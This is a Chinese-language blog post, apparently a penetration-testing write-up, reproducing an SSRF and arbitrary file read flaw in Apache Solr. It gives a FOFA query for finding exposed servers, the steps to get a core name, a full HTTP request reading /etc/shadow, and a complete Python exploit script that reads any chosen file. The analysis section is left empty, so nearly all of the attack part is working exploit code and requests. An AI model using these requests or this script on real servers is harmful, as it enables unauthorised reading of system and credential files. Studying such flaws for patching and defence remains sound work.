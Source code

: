```yaml
---
title: Apache Solr SSRF与任意文件读取漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 漏洞复现
- Solr
abbrlink: 7700
date: 2021-03-22 11:46:53
keywords:
summary:
img:
password:
---
```




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，基于Lucene的全文搜索服务器。

Apache Solr全版本存在一个SSRF与任意文件读取漏洞，因Apache Solr整体默认安装为未授权，且大部分资产都为未授权，提供众多api接口，支持未授权用户通过config api更改配置文件，攻击面较大。建议相关用户及时采取措施阻止攻击。



# 影响范围

Apache Solr 所有版本





# 漏洞复现

**fofa查询资产关键字：**

```
app="APACHE-Solr"
```



**1.首先访问目标url拼接下面的路径，获取实例对象的名称**

```bash
/solr/admin/cores?indexInfo=false&wt=json
```



![获取实例名称](http://image.xpshuai.cn/solr_instance.png)

如图，可以得到实例对象的名称为`Tourist-guide-Server`





**2.构造路径**

```bash
/solr/".iii."/debug/dump?param=ContentStreams&wt=json
```

其中`iii`就是我们前面得到的实例对象的名称
这里，我们构造之后为下面这个(这个地址作为post请求的地址)：

```bash
/solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json
```



而post数据中的body的内容为：`stream.url=file:///etc/passwd`

即(**发送这个数据包**)：

```bash
POST /solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/shadow
```



![读取文件](http://image.xpshuai.cn/solr_ok.png)







# 漏洞分析

略





# EXP

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
import requests
import json
import urllib
import time
import re
def Getins(url):
    try:
        ins=""
        url = url+"solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(url=url)
        data = str(response.text)
        ins = re.findall(r'\"name\":\"(.+?)\",',data)[0]
        return(ins)
    except IndexError:
        return("")

def Getfile(url,ins,filename):
    try:
        url = url+"solr/"+ins+"/debug/dump?param=ContentStreams&wt=json"
        headers ={
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        payload = str("stream.url=file://"+filename)
        response = requests.post(url=url,headers=headers,data=payload)
        data = str(response.text)
        test = re.findall(r'\"stream\":\"(.+?)\"\}]',data)[0]
        print(test.replace(r"\n","\n"))
    except IndexError:
        print("不能读取此文件")
        

if __name__ == '__main__':
    url = input("请输入测试地址:")
    filename = input("请输入读取的文件路径:")
    ins=Getins(url)
    if(ins == ""):
        print("不存在漏洞")
    else:
        Getfile(url,ins,filename)
```

读取效果：

![exp效果](http://image.xpshuai.cn/solrexp.png)